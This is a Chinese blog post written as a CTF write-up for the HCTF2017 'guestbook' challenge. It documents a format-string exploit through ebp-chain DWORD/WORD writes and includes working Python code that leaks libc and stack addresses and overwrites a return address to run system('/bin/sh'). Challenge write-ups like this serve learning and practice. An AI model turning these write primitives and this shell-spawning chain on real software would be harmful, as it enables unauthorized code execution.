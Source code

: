 ```yaml
---
layout: post
title:  "HCTF2017guestbook"
date:   2019-01-02 13:01:05 +0000
categories: jekyll update
---
```


# 关于HCTF2017的guestbook的一点总结

一道很明显的格式化字符串漏洞的题目，然后我在如何利用这块想了很久，总结一下经验吧。。。

## 通过格式化字符串漏洞进行DWORD/WORD SHOOT

因为是格式化字符串漏洞，（很明显see那里有格式化字符串漏洞，）可以利用ebp chain进行dword shoot，具体实现代码如下：

```python
#pre: iDst and iNum is smaller than 0x7fffffff
#the next two gust index is 2 and 3
def dword_shoot(iDst, iNum, idx1, idx2):
	add_guest("%"+str(iDst)+"x%72$n", "1")
	add_guest("%"+str(iNum)+"x%80$n", "1")
	see_guest(idx1)
	see_guest(idx2)
	del_guest(idx1)
	del_guest(idx2)
#iNum < 0x7fffffff
def stack_shoot_dword(addr_72, displacement, iNum, idx1, idx2):
	addr = (addr_72 + displacement * 4) & 0xffff
	add_guest("%"+str(addr)+"x%72$hn", "1")
	add_guest("%"+str(iNum)+"x%80$n", "1")
	see_guest(idx1)
	see_guest(idx2)
	del_guest(idx1)
	del_guest(idx2)
#iNum < 0xffff
def stack_shoot_word(addr_72, displacement, iNum, idx1, idx2):
	addr = (addr_72 + displacement * 2) & 0xffff
	add_guest("%"+str(addr)+"x%72$hn", "1")
	add_guest("%"+str(iNum)+"x%80$hn", "1")
	see_guest(idx1)
	see_guest(idx2)
	del_guest(idx1)
	del_guest(idx2)
```

72\$指向80\$,所以第一步先把80$处的地址写为我们的目标地址，然后下一次用这个地址进行任意地址写入（dword shoot）

然后是stack dword shoot，这个就有点麻烦了，因为貌似写入超过0x7fffffff的数会写入失败snprintf返回-1,而栈的基址一般都是大于这个值的，但是，有一个叫做hn的操作：只写入一个word，所以我们可以利用ebp chain的值的高16位都是栈的基址这点(不准确吧，不过反正就是栈那块的地址)，只对80$处的低16位进行写入，所以可以向栈中高16位是ebp chain的高16位的那块区域写入任意数据。addr_72是通过%u获取的72的值，displacement是相对那个所获取出来的值的偏移，这个地方会被写入一个word或者dword。。。

但是有个前提，就是调用dword_shoot之后，80$处的数据会被污染(高16位被破坏)，所以stack_shoot就不再奏效。。。

## 本题解题思路

### GOT表覆盖

一开始我是想覆盖GOT表地址(free变成system)，把某个phone的指针(本来指向堆)变成指向.data段的"/bin/sh"，可以通过将name设置成"/bin/sh"来实现。但是这是e8的call，是通过相对偏移调用的，而不是GOT表，所以失败

### 比较麻烦的方法

这个方法比较麻烦，也与预期的方法不一样，但还是记录一下吧。

首先，目标是调用see_guest时，将返回地址写入成system的地址，并在返回地址+8处写入"/bin/sh"作为其第一个参数

然而system的地址也是大于0x7fffffff的，所以要分两部分来word shoot，刚好有两个格式化字符串漏洞，然而phone是限制只能是数字的，所以可以先把phone的指针设为指向另一个guest的name，这个name也是进行word shoot的payload。一个射高16位，一个射低16位，完成目标，返回时执行到system("/bin/sh")

然而，我们需要在栈中先放置 返回地址 和 返回地址+2 的值，这样才能通过%xx$hn进行shoot，所以要先把它们stack_shoot_word到栈中。（因为栈的地址大于0x7fffffff，所以要找个高16位是那块区域的地址，修改其低16位使其指向返回地址和返回地址+2）

还有就是，我们所shoot的位置里面的内容必须要保持不变，就是，因为要各种add see del，如果这些操作会改变我们shoot位置的值，就不能shoot那里。这个具体可以调试器手动改一下然后随便搞些操作看下会不会被修改。。。

具体实现代码如下：

```python
add_guest("/bin/sh\x00", "1") #index 0
add_guest("%1$u %72$u %3$u", "1") #index 1
szName = see_guest(1)
del_guest(1)
libc = get_libc_base(szName)
guestbook = get_guest_base(szName)
from_72 = get_stack_from_72(szName)
#获取各种基址
system_addr = libc + 0x03ada0 # given 0x0003a940，这个是我电脑上的，题目给的是注释里面那个。。。
guestStruct = guestbook+0x3040
phoneStruct = guestbook+0x3063
structSize = 0x28 # both struct are 0x28
# +1 is the pointer to the phone in the heap
# +4 is the array of the name
ret = from_72 - 7 * 4

add_guest("%"+str(system_addr>>16)+"x%87$hn", "1") # index 1
#correspond to 14 that is going to be return addr + 2
add_guest("%"+str(system_addr&0xffff)+"x%84$hn", "1") # index 2
#correspond to 8 that is going to be ret addr

stack_shoot_word(from_72, 8, (ret) & 0xffff, 3, 4)
stack_shoot_word(from_72, 14, (ret + 2) & 0xffff, 3, 4)
#change 8 14 into the ret addr and ret addr+2

stack_shoot_dword(from_72, -5, guestStruct+4, 3, 4)
#shoot addr of "/bin/sh" into the position that is going to be the first argument

dword_shoot(phoneStruct+structSize+1, guestStruct+structSize*2+4, 3, 4)
#shoot shoot the index 1 phone as name of index 2

# see 1,然后覆盖返回地址为system，执行system("/bin/sh")
sh.send("2")
sh.recvuntil("input the guest index:\n")
sh.send(str(1))

sh.interactive()

```

## 经验总结

1. 一开始有个地方(del_guest)我用了recv而不是recvuntil，导致了有时成功有时失败。其实这是流的粘包与否的不确定性所造的孽。。。比方说，还没收完puts出来的字符串，就sh.recv()返回了。。。然后send再recv()把刚才的收完，再send，这个时候就会出错。。。（自己脑补一下吧。。。）
2. 面对这种比较复杂的exploit方法，还是多模块化封装比较好。。。不然会晕。。。
3. 其实想了另外一种exploit方法，就是stack_shoot_dword所存储的ebp，使得函数返回后，ebp被劫持，然后这里如果再通过[ebp-xxx]访问局部变量的话，会访问到我们指定的地址。。。比方说mov [ebp-0x10],xxx，如果这个xxx我们可以控制，ebp也能通过格式化字符串漏洞控制，那么就也能造成一个dword shoot。。。

